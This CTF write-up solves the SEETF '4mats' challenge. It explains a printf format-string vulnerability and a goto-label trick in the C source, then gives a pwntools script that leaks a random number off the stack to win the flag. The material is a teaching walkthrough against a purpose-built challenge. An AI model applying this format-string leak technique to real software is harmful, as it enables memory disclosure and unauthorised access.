

# 4mats



[Files](./Files/pwn_4mats.zip)

We are presented with a binary and its source c file for a program running on a server. Running the binary we are greeted with this:

```
Welcome to SEETF!
Please enter your name to register:
```

After entering a name, the program responds with:

```
Welcome: theF0X

Let's get to know each other!
1. Do you know me?
2. Do I know you?
```

After entering '1', the program responds with:

```
Guess my favourite number!
1
Not even close!
```

After entering '2', the program responds with:

```
Whats your favourite format of CTFs?
crypto
Same! I love
crypto
too!
```

Upon entering a valid input, the program will return back to the menu.

Reading over the source, the goal seems to be to 'guess' a random number chosen by the program. If we are correct, there is a system call to print the flag file. 

```c
void guess_me(int fav_num){
    printf("Guess my favourite number!\n");
    scanf("%d", &guess);
    if (guess == fav_num){
        printf("Yes! You know me so well!\n");
    system("cat flag");
        exit(0);}
   else{
       printf("Not even close!\n");
   }

}
```

Reading further we can see several labels, as well as a switch case for different user options. Looking more closely, we can see the vulnerability we need to exploit. A user-provided string is printed to the screen using `printf` with only one argument.

```c
case 2:
mat5:
        printf("Whats your favourite format of CTFs?\n");
        read(0, format, 64);
        printf("Same! I love \n");
        printf(format);
        printf("too!\n");
        break;
```

For those that don't know `printf` is used to print a format string. Format strings often require variables to be passed along with the string to `printf`. For example `ID: %d` requires an integer argument. If a format string requires an argument but none is passed, then `printf` simply begins reading values off the stack, where it thinks the argument should be.

The outline of an exploit begins to form:

1. Generate a random number.
2. Leak values from the stack until we find the number.
3. Call guess_me and provide the leaked number.
4. Profit???

The only issue is calling guess_me without setting a new random number. Simply calling option 1 in the menu will trigger a new random number, making our leaked one worthless.

```c
 case 1:
        srand(time(NULL));
        int fav_num = rand() % 1000000;
        set += 1;
mat4:
        guess_me(fav_num);
        break;
```

 Luckily there is a label (mat4) between the random number generator and the call to guess_me. In order to jump to that label we simple trigger the default switch case behavior and ensure that the variable 'set' is equal to 4. 

```c
default:
    printf("I print instructions 4 what\n");
    if (set == 1)
mat6:
        goto mat1;
    else if (set == 2)
        goto mat2;
    else if (set == 3)
mat7:
        goto mat3;
    else if (set == 4)
        goto mat4;
    else if (set == 5)
        goto mat5;
    else if (set == 6)
        goto mat6;
    else if (set == 7)
        goto mat7;
    break;
```

 We can trigger the default switch-case behavior by providing a number other than 1 or 2. And we can ensure 'set' is equal to 4 by calling case 1 four times(each time case one is triggered 'set' is incremented).

So the final exploit plan is as follows:

1. Trigger option 1 four times.
2. Trigger option 2, and provide a format string that requires parameters
3. Trigger default by sending number 3, provide leaked value to guess_me

#### Code

```python
from pwn import *

#p = process("./distrib/vuln")
p = remote("fun.chall.seetf.sg", 50001)

p.sendlineafter(b"Please enter your name to register:",b"theF0X")

for i in range(4):
    p.sendlineafter(b"2. Do I know you?\n",b"1")
    p.sendlineafter(b"Guess my favourite number!",b"0")

p.sendlineafter(b"2. Do I know you?\n",b"2")
payload = b"%d " * 8 + b"\n"
p.sendlineafter(b"Whats your favourite format of CTFs?\n", payload) #format string
p.recvline()#"Same! I love \n"
data = p.recvline()
arr = data.decode().split(" ")
num = int(arr[6]) #leaked value

p.sendlineafter(b"2. Do I know you?\n",b"3")
p.sendlineafter(b"Guess my favourite number!",str(num).encode())
print(p.recvall())
p.close()
```

Note: I grabbed index 6 from the list of leaked values, it stood out to me because it was the smallest value. In reality, there was not much logic involved in picking the index.

**OUTPUT**

```
#b'\nYes! You know me so well!\nSEE{4_f0r_4_f0rm4t5_0ebdc2b23c751d965866afe115f309ef}\n'
```